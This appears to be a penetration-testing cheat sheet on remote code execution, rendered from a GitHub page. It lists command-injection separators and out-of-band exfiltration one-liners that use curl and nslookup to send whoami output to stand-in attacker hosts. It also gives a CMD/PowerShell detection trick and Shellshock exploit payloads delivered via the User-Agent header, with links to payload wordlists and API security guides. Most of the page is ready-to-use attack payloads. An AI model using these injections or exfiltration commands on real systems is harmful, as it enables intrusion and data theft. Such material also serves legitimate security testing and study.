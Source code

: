 ## Remote Code Execution (RCE)
-> Special Characters  
```
& command
&& command
; command
command %0A command
| command
|| command
`command`
$(command)
```

-> Out Of Band - OOB Exploitation
```
curl http://$(whoami).site.com/
curl http://`whoami`.site.com/
nslookup `whoami`.attacker-server.com &
curl http://192.168.0.20/$(whoami)
```

-> Check if the commands are executed by PowerShell or CMD.
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell 
```

### RCE - Exfiltrating via DNS
```
curl http://$(whoami).site.com/
curl http://`whoami`.site.com/
```

### Shellshock
-> Detection
```
nikto -h <IP> -C all
```
	
-> Exploit
```
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -c 'whoami'" <IP>
curl -A "() { :; };echo ;/bin/bash -c 'hostname'"  <IP>
curl -A "() { :; }; /usr/bin/nslookup $(whoami).site.com" <IP>
```

### Wordlists
https://github.com/payloadbox/command-injection-payload-list

## API Exploitation
-> API Security Guide  
https://github.com/0xCGonzalo/Golden-Guide-for-Pentesting/tree/master/API%20Security

-> API Security Checklist  
https://github.com/shieldfy/API-Security-Checklist
